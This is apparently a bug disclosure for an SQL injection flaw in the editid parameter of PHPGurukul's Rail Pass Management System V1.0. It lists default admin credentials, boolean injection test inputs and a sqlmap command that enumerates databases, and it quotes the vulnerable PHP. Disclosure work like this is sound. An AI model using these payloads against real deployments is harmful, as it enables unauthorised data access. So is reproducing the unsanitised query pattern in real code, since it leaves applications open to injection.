 # [Rail Pass Management System-SQL Injection-edit-category-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Affected Version]:** Rail Pass Management System V1.0

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/edit-category-detail.php?editid=13`    

**[Vulnerability Location]:** rpms/admin/edit-category-detail.php

**[Vulnerability Test]:**

1. When you enter `13%20and%201=1` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155036.png)

   

2. When you enter `13%20and%201=2` in the `editid` parameter, the page displays as follows:

   ![](../../img/20230427155212.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/edit-category-detail.php?editid=13" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" --dbs --batch
   ```

   ![](../../img/20230427162644.png)

**[code analysis]:**

rpms/admin/edit-category-detail.php

```php
<?php
$eid=$_GET['editid'];
$sql="SELECT * from  tblcategory where ID=$eid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `editid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.